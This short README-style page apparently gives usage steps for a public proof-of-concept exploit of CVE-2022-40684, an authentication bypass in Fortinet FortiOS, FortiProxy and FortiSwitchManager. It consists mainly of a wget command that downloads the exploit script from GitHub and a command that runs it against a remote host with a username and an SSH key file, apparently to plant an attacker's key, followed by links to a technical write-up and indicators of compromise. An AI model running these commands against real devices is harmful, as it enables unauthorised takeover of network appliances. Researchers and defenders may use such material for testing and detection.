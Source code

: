 ### Download exploit
```
wget https://raw.githubusercontent.com/horizon3ai/CVE-2022-40684/master/CVE-2022-40684.py
```

### Run
```
python3 CVE-2022-40684.py -t <rhost> --username <user> --key-file ~/.ssh/<addKey>
```

### References
* https://www.horizon3.ai/fortios-fortiproxy-and-fortiswitchmanager-authentication-bypass-technical-deep-dive-cve-2022-40684
* https://www.horizon3.ai/fortinet-iocs-cve-2022-40684/

